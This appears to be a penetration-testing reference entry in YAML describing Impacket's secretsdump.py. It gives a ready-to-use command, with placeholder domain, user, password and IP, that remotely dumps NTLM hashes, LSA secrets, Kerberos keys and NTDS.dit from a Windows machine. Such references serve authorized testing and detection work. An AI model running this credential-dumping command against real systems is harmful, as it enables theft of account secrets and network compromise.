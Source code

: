 ```yaml
---
description: |
  Impacket's secretsdump.py will perform various techniques to dump secrets from the remote machine without executing any agent. Techniques include reading SAM and LSA secrets from registries, dumping NTLM hashes, plaintext credentials, and kerberos keys, and dumping NTDS.dit. The following command will attempt to dump all secrets from the target machine using the previously mentioned techniques.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: john

  	Password: password123

command: |
  python3 secretsdump.py test.local/john:password123@10.10.10.1
items:
  - Password
  - Username
services:
  - Kerberos
  - NTLM
OS:
  - Linux
  - Windows
phases:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py
  - https://riccardoancarani.github.io/2020-05-10-hunting-for-impacket/#secretsdumppy
---
```

